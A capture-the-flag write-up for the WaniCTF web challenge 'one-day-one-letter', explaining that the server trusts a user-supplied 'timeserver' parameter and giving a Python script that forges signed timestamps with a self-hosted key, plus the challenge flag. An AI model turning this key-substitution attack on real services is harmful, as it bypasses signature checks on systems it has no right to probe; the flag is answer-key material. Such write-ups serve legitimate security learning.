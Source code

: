 https://ctftime.org/event/2377

# one-day-one-letter (web)

The challenge consists of two servers, one that display some content and one that host both
the private and public keys.
The server doesnt validade the "timeserver" parameter though so we can just create our own pair of keys
and point to our server.

## Solution

```python
#!/usr/bin/env python3
import requests

from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
import time

# gen key
# key = ECC.generate(curve='p256')
# open("key.txt", "w").write(key.export_key(format='PEM'))
# pubkey = key.public_key().export_key(format='PEM')
# open("pub.txt", "w").write(pubkey)
# host with whatever

REMOTE = "https://web-one-day-one-letter-content-lz56g6.wanictf.org/"

def make_body(adjust):
    key = open("key.txt", "rb").read()

    timestamp = str(int(time.time()) + adjust).encode("utf-8")
    h = SHA256.new(timestamp)
    key = ECC.import_key(key)
    signer = DSS.new(key, "fips-186-3")
    signature = signer.sign(h)
    return (timestamp, signature)

for i in range(0, 12):
    timestamp, signature = make_body(-90000 * i) 

    res = requests.post(
        REMOTE,
        json={
            "timestamp": timestamp.decode(),
            "signature": signature.hex(),
            "timeserver": "<hostname>",
        },
    )
    print(f"DEBUGPRINT[1]: solve.py:27: res.text={res.text}")
```

## Flag
`FLAG{lyingthetime}`

shafouz 2024/06/23
